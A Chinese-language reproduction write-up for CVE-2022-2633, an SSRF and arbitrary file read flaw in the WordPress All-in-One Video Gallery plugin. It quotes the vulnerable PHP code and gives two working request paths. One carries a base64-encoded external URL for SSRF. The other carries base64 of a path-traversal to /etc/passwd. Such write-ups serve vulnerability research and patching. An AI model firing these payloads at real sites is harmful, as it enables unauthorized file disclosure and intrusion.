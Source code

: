 # WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

```
WordPress All-in-One Video Gallery <= 2.6.0
```

## 插件名称

```
All-in-One Video Gallery
```

https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![image-20221017170543356](./images/202210171705476.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![image-20221017170604454](./images/202210171706536.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![image-20221017170622056](./images/202210171706133.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![image-20221017170640788](./images/202210171706868.png)

看向代码最后的片段，则存在任意文件读取漏洞

![image-20221017170655893](./images/202210171706975.png)

```
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![image-20221017170708523](./images/202210171707604.png)